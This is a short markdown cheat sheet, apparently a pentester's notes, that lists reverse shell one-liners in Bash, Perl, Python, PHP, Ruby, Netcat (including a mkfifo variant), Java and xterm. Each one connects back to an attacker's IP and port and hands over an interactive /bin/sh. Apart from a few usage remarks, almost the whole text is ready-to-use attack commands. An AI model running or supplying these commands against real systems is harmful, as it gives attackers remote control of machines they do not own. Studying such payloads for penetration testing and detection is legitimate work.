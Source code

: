 **This text will be bold**
__This will also be bold__



# Bash
bash -i >& /dev/tcp/*ip*/*port* 0>&1


# PERL
perl -e 'use Socket;$i="*ip*";$p=*port*;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("*ip*",*port*));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# PHP
php -r '$sock=fsockopen("*ip*",*port*);exec("/bin/sh -i <&3 >&3 2>&3");'


# Ruby
ruby -rsocket -e'f=TCPSocket.open("*ip*",*port*).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'


# Netcat->nc -e /bin/sh *ip* *port*
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f


## Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]



## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):


Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):
xhost +targetip
